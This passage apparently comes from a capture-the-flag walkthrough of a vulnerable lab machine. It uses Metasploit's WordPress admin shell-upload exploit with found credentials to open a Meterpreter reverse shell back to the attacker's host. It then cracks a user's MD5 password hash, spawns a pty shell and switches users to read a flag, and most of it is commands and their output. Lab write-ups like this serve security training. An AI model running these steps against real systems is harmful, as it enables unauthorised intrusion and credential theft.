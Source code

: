 with:

    #fail_with(Failure::NotFound, 'The target does not appear to be using WordPress') unless wordpress_and_online?

Save & close the file.

    $ msfconsole
    use exploit/unix/webapp/wp_admin_shell_upload
    show options
    set USERNAME elliot
    set PASSWORD ER28-0652
    set RHOST 192.168.2.106
    run

```
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wp-content/plugins/qNaWEECiyV/bmiIwZjjty.php...
[*] Sending stage (37775 bytes) to 192.168.2.106
[*] Meterpreter session 1 opened (192.168.2.111:4444 -> 192.168.2.106:56965) at 2018-09-14 19:06:21 +0200
[!] This exploit may require manual cleanup of 'bmiIwZjjty.php' on the target
[!] This exploit may require manual cleanup of 'qNaWEECiyV
.php' on the target
[!] This exploit may require manual cleanup of '../qNaWEECiyV\' on the target
```

Always on msfconsole, navigate on the server.

    meterpreter > sysinfo
    OS: Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64

    meterpreter > cd /home/robot
    meterpreter > ls
    meterpreter > cat password.raw-md5
    robot:c3fcd3d76192e4007dfb496cca67e13b

Open [leaked.py](https://github.com/GitHackTools/Leaked):

    $ leaked.py

```
2, Hash Leaked
Enter or paste a hash code you want to check: c3fcd3d76192e4007dfb496cca67e13b
THAT HASH CODE IS LEAKED! It means: abcdefghijklmnopqrstuvwxyz
```

Return on meterpreter, we going to connect as robot:

    meterpreter > shell
    python -c 'import pty; pty.spawn("/bin/sh")'
    su robot
    Password: abcdefghijklmnopqrstuvwxyz

    cd
    cat key-2-of-3.txt
    822c73956184f694993bede3eb39f959
    